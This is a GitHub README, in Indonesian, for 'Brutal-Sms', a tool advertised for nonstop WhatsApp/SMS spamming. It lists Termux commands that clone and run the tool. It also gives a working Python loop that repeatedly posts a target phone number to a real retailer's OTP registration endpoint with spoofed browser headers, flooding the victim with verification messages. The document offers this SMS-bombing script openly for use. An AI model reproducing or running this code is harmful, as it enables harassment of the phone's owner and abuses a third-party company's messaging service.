 # Brutal-Sms



Spam Brutal WhatsApp 24 jam non stop

<details open>

  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash

  pkg update && pkg upgrade

  pkg install nano

  pkg install git

  pkg install python

  git clone https://github.com/AmmarrBN/Tools-WhatsApp

  bash install.sh

  cd Tools-WhatsApp

  python main.py

  ```

  </details>

<details open>

  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash

  Example:

  import os,sys,time,requests,json

  abc=input("Nomor Target:")

  while True:

        print (abc)

        # Tambah time.sleep(5) (Jika Ingin Delay)

  ```

  </details>

#### KELEBIHAN 📍

| Kelebihan | Check |

|--------|--------|

| **24 Jam non stop** |[✔️](https://github.com/AmmarrBN) |

| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |

| **Simple** |[✔️](https://github.com/AmmarrBN) |

| **No Encrypt** |[✔️](https://github.com/AmmarrBN) |

| **Subscribe** |[Here](https://youtube.com/channel/AuliaRahmanOfficial123) |

---------

<details open>

  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash

  import os,sys,time,requests,json

  nomor=input("Nomor Target:")

  while True:

        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text

        time.sleep(10) # Waktu Delay Bisa Atur Sendiri

  ```

  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

